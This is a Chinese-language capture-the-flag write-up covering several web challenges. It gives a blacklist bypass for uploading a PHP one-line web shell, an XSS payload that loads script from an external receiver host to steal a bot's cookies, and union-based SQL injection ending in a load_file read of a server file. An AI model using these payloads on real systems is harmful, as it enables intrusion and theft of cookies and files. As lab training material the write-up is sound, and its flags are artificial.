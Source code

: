`str_ireplace($blacklist,"",$name)` 这一段代码使用了 PHP 中的 `str_ireplace` 函数，将字符串 `$name` 中的所有 `$blacklist` 项替换为空字符串（即删除它们），并且不区分大小写。

所以可以将一句话木马命名为 `shell.pphphp`，将php后缀中间再添加一个.php，这样子会将原本php截断并且新的php会被替换为空字符使原本的php重新结合。

注：不能写为.phpphp，会使两个php都被替换掉。

### XSS漏洞

#### 反射型

使用一个xss接收平台，payload：`<sCRiPt sRC=//xs.pe/5T0></sCrIpT>`，拼接到url之后：`http://challenge-0ed78e37b07a8b06.sandbox.ctfhub.com:10800/?name=%3CsCRiPt+sRC%3D%2F%2Fxs.pe%2F5T0%3E%3C%2FsCrIpT%3E`，发送给Bot，bot会模拟用户访问，在**Cookies**中会存储flag。

#### 存储型

存储型会将上一次提交的name存储在服务器中，下一个人访问时不需要传参也会遭到xss攻击。所以post一个含有xsspayload的name，再将当前题的url直接发送给Bot，即可得到flag。

## QSNCTF

#### 文章管理系统

`?id=0 union select 1,database()`查看数据库名称：word

`?id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema='word' `查看word库中有哪些表 ：articles

`?id=0 union select 1,group_concat(column_name) from information_schema.columns where table_schema='word' and table_name='articles'`查看表中有哪些字段：id,title,word

`?id=0 union select 1,group_concat(word) from articles`得到fake_flag：qsnctf{sql+so+easy!!!!}。

**生气！！！**

左思右想，冥思苦想，不会。看了提示，说要执行命令。在google搜索，发现有sql读取文件函数，于是执行 `?id=0 union select 1,load_file('/flag')`得到flag

#### Robots

`/robots.txt`得到 `/f1ag_1n_the_h3re.php`，flag就在其中

#### 黑客终端

检查源码发现

```
script>
		var output = document.getElementById("output");
		var input = document.getElementById("input");
		var submit = document.getElementById("submit");
		var clear = document.getElementById("clear");

		submit.onclick = function() {
			var command = input.value;

			// 在输出框中显示输入的指令
			output.innerHTML += "$ " + command + "<br>";
			// 调用PHP执行shell命令，并将命令执行的回显输出到终端中
			if(command === "cat /flag"){
				output.innerHTML += "flag{affb8f966e044c378b1b99bf71c608b9}" + "<br>"
			}else if(command === "ls"){
				output.innerHTML += "bin home lib32 media root sys vmlinuz boot initrd.img flag lib64 mnt run tmp vmlinuz.old dev initrd.img.old libx32 opt sbin usr etc lib lost+found proc srv var" + "<br>"
			}else{
				output.innerHTML += "Not find the command..." + "<br>"
			}
			// 清空输入框
```